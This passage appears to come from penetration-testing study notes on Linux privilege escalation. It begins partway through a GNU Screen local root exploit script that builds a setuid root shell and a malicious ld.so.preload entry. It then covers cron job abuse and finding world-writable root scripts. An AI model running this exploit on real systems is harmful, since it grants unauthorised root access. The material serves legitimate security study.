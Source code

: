         printf("[+] done!\n");
    }
    EOF
    gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
    rm -f /tmp/libhax.c
    cat << EOF > /tmp/rootshell.c
    #include <stdio.h>
    int main(void){
        setuid(0);
        setgid(0);
        seteuid(0);
        setegid(0);
        execvp("/bin/sh", NULL, NULL);
    }
    EOF
    gcc -o /tmp/rootshell /tmp/rootshell.c -Wno-implicit-function-declaration
    rm -f /tmp/rootshell.c
    echo "[+] Now we create our /etc/ld.so.preload file..."
    cd /etc
    umask 000 # because
    screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
    echo "[+] Triggering..."
    screen -ls # screen itself is setuid, so...
    /tmp/rootshell


<a id="org2f27867"></a>

## Cron Job Abuse

Cron jobs can also be set run one time (such as on boot). They are typically used for administrative tasks such as running backups, cleaning up directories, etc. The `crontab` command can create a cron file, which will be run by the cron daemon on the schedule specified. When created, the cron file will be created in `/var/spool/cron` for the specific user that creates it. Each entry in the crontab file requires six items in the following order: minutes, hours, days, months, weeks, commands. For example, the entry `0 */12 * * * /home/admin/backup.sh` would run every 12 hours.

Certain applications create cron files in the `/etc/cron.d` directory and may be misconfigured to allow a non-root user to edit them.

**Find Cron in System**

    find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
    
    /etc/cron.daily/backup
    /dmz-backups/backup.sh
    /proc
    /sys/fs/cgroup/memory/init.scope/cgroup.event_control
    
    <SNIP>
    /home/backupsvc/backup.sh

A quick look in the `/dmz/backups` directory shows what appears to be files created every three minutes. This seems to be a major misconfiguration
Perhaps the sysadmin meant to specify every three hours like `0 */3 * * *` but instead wrote `*/3 * * * *`, which tells the cron job to run every three minutes. The second issue is that the `backup.sh` shell script is world writeable and runs as root.
